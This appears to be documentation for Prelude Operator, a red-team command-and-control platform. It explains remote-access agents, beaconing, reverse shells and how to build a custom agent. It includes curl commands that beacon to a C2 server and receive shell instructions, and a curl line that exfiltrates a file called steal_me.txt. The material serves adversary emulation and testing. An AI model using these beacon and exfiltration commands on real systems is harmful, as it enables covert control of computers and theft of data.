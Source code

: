 
# What is an agent

#### Remote Access Trojans

---

An agent, often referred to as a Remote Access Trojan, is a process running on a remote computer which can run commands while under the control of a bad actor.
Agents beacon into Operator periodically to ask for instructions to run. Each agent is
automatically grouped into a range. Agents communicate to Operator through one of several network protocols, 
such as TCP, UDP, or HTTP.

### What is ThirdEye?

---

ThirdEye is a Node.js agent that is built directly into Operator. When Operator starts, ThirdEye automatically launches
and beacons into your Home range with the username of the user running the desktop application. It only communicates
locally to Operator and is designed for testing TTPs out before deploying them in the wild. 
ThirdEye does not support reverse shells, nor can you delete this agent.

### What is Pneuma?

---

Our most popular open-source agent is called Pneuma, a Go agent which supports all major operating systems 
and 3 different protocols (TCP, UDP, HTTP). Pneuma is capable of executing nearly all TTPs and chains loaded into
Operator, along with built-in support for reverse shells (when connected over TCP).

### Additional agents

---

Prelude supports multiple script agents written in various languages. 
Some agents are designed for specific operating systems while others are multi-platform. 
You can find details about these agents in the main section, including download options to start using them.

### Agent limits

---

Operators are logical groupings of agents. For example, an Operator can be used to cluster agents from various platforms (darwin, 
linux, windows) in order to run a cross-platform chain against all the agents. Agents can be moved between Operators using 
either command line flags or the Update Config sidebar in the main section. Depending on the license level the maximum number of agents that can be connected at a single time differ - with 5 being the most for community members and 50 for professional and enterprise users.

### Locking an agent

---

Lock an agent in order to approve or reject each instruction (TTP) before it is picked up and executed. 
When an agent is locked, all instructions will enter pending state where you can approve or reject them one at a time.

### Simulation mode

---

You can set agents to "Simulation Mode" via the agent config sidebar. Simulation mode will run TTPs using output data from
the Expected Output section of the TTP's man page. When you toggle this mode, the chain will run as normal, but not actually
execute tasks on the endpoint.

### Agent facts

---

Each agent collects and manages its own collection of facts, which it will use as variables inside TTP commands.
You can interact with these facts by clicking into the Knowledge Store. You can supply an agent with new facts
manually or the agent can report facts itself through the Beacon object.
    
### Deleting an agent

---

When you delete a file-based agent, like Pneuma, the connection is stopped and the agent is archived - meaning
it will no longer show up inside Operator but the data remains in your workspace, if you need to restore it.
However, if you don't stop the agent's process on the compromised machine, the agent will just beacon back in
and create a new version of itself. To stop the process, you will need to send the agent an "exit" keyword command.
You can do this by using the "Stop Agent Process" procedure. Run this, then delete the agent to completely block it.

### Build your own agent

---

You can write your own agent in any language easily. Follow this simple interface to do so. Hint: if you enable 
plain-text encryption in the Settings section you can copy the below commands 
into a terminal to get a real agent online. 
The required Beacon properties are: name, target, location, platform, executors, range, sleep.

#### HTTP Agent 1st beacon to Operator

```shell
curl -X POST localhost:3391 -d '{
    "Name":"david",
    "Target":"127.0.0.1:3391",
    "Hostname":"whoami",
    "Location":"/tmp/here",
    "Platform":"darwin",
    "Executors":["sh"],
    "Range":"home",
    "Sleep":60,
    "Pwd":"/Users/me",
    "Executing":"",
    "Links":[],
    "Facts":[]
}'
```

#### Operator responds with instructions

```shell
{
    "links":[
        {
            "ID": "c1883712-c81b-40a8-952d-a15123c034c6",
            "Executor":"sh",
            "Request":"arp -a",
            "Payload":""
        }
    ]
}
```

#### HTTP Agent executes instructions and sends a new beacon

```shell
curl -X POST localhost:3391 -d '{
    "Name":"david",
    "Target":"127.0.0.1:3391",
    "Hostname":"whoami",
    "Location":"/tmp/here",
    "Platform":"darwin",
    "Executors":["sh"],
    "Range":"home",
    "Sleep":60,
    "Pwd":"/Users/me",
    "Executing":"",
    "Links":[
        {
            "ID": "c1883712-c81b-40a8-952d-a15123c034c6",
            "Executor": "sh",
            "Payload": "",
            "Request": "arp -a",
            "Response": "some response",
            "Status": 0,
            "Pid": 123
       }
    ],
    "Facts":[]
}'
``` 

### Additional options

Aside from sending beacons, an agent can also exfiltrate files back to Operator over HTTP(s).
Below is an example in cURL. The agent must supply the API token along with its name. Any
exfiltrated files will be stored in your agent's artifacts directory (in the Prelude workspace).

```shell
curl -X PUT "http://localhost:3391" -H "key: ${operator.session}" -H "agent: ${agent.name}" -F upload=@steal_me.txt
```
